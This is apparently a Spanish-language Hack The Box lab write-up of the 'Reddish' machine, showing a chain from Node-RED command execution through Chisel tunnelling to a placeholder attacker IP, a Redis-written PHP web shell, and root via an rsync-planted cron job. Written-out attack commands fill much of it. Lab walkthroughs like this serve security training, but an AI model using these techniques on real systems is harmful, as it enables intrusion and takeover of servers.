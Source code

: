 ```yaml
---
title: "Hack The Box - Reddish"
description: "Obtener acceso root en un entorno multi-contenedor que incluye Redis, Node-RED y Rsync."
pubDate: 2025-08-26
draft: false
tags: ["Chisel ", "Reverse shell","Cron", "PHP","Socat"]
---
```

**IP:** `10.10.10.94`  
**OS:** Linux (multi-container environment)  
**Dificultad:** Insane 

---

### 🧭 Enumeración Inicial
```bash
curl -s -X POST http://10.10.10.94:1880/
```
Devuelve una estructura de flujo que sugiere acceso a **Node-RED** con ejecución de comandos. Se carga una reverse shell mediante el flujo.

---

## 🦈 Acceso Inicial 
- Se usa el flujo de Node-RED para ejecutar una reverse shell apuntando a nuestro listener.
- Dentro del contenedor, se observan dos interfaces de red: `172.18.0.2` y `172.19.0.4`.

---

## 🌐 Enumeración de la red
Se usa un script personalizado para escanear los rangos internos (172.18.0.0/16 y 172.19.0.0/16).  
Se detectan múltiples servicios accesibles:

- `172.19.0.2:6379` – Redis
- `172.19.0.3:80` – Web
- `172.19.0.4` – Node-RED (usado)

---

## 🔁 Port Forwarding con Chisel
```bash
# En atacante:
./chisel server --reverse -p 1234
```
# En víctima:
```bash
./chisel client <IP_ATACANTE>:1234 R:80:172.19.0.3:80 R:6379:172.19.0.2:6379
```

---

## 🧠 Redis Exploitation
Se puede usar Redis para escribir archivos directamente en el servidor web.
```bash
echo "<?php system($_REQUEST['cmd']) ?>" > cmd.php
cat cmd.php | redis-cli -h 127.0.0.1 -x set reverse
redis-cli config set dir /var/www/html/<ruta>
redis-cli config set dbfilename "cmd.php"
redis-cli save
```
Se obtiene ejecución remota de comandos por web:  
```bash
`http://<host>/cmd.php?cmd=id`
```
---

## 🛠 Reverse Shell desde backup
Se usa `socat` y una reverse shell Perl desde un endpoint vulnerable.

---

## 🧪 Rsync + Cron Exploit (Privesc)
Desde el contenedor web se detecta host `backup (172.20.0.2)` con Rsync.

```bash
# Creamos archivo cron:
echo '* * * * * root sh /tmp/reverse.sh' > reve
rsync reve rsync://backup:873/src/etc/cron.d
```

Se sube script con reverse shell:
```bash
rsync reverse.sh rsync://backup:873/src/tmp/reverse.sh
```

---

## 👑 Root Access
Al activarse el cron job, se recibe una shell como `root@backup`.

```bash
whoami
# root
```

---

## 🧾 Conclusiones
- Máquina interesante por su diseño multi-contenedor.
- Se combinan técnicas: RCE via Node-RED, explotación de Redis, port forwarding con Chisel, y escalada vía Rsync+cron.
- Refuerza conceptos de post-explotación en entornos internos aislados.

✅ ¡Rooted!
